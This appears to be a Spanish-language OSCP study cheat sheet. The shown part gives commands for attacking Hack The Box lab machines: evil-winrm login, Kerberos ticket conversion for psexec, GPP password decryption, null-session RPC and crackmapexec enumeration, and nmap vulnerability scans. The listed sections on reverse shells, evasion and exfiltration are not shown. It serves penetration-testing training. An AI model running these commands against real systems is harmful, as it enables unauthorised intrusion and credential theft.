 - [OSCP](#Commands)
- [Enumeracion](#Enumeracion)
- [Password Attacks](#password-attacks)
- [File Transfers](#file-transfers)
- [Reverse Shells](#reverse-shells)
- [Ofuscación](#ofuscacion)
- [Explotacion](#explotacion)
- [Persistencia](#persistencia)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Pivoting](#pivoting)
- [Evasion de antivirus](#evasion-de-antivirus)
- [Exfiltración de datos](#exfiltración-de-datos)
- [Limpiando huellas](#limpiando-huellas)
- [Tips](#tips)

# Commands

Comandos y herramientas que se encuentran en el documento de PWK

Recuerden poner siempre el host 

echo 'IP NOMBRE.htb' | sudo tee -a /etc/hosts

Para poder conectarse a una maquina podemos usar alguno de los siguientes comandos

evil-winrm -u USER -p PASS -i IP

## Convvertir ST a kirbi a ccache para psexec

base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass

# Enumeracion

## GPO

gpp-decrypt GROUPPOLICYPASSWORD

Estos se encuentran en un xml 
Example -> edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

## RPC

```sh
rpcclient --user '' --workgroup active.htb --no-pass 10.10.10.100
crackmapexec wmi 10.10.10.100 -u '' -p ''
```

## Nmap
```sh
sudo nmap --script-updatedb
sudo nmap -p- --open -vvv --min-rate 5000 -sS -Pn 10.10.10.4 -oN nmap
sudo nmap -sVC -p135,139,445 10.10.10.4 -oN nmap.service
sudo nmap -sV -p 443 --script "vuln" 192.168.50.124
```
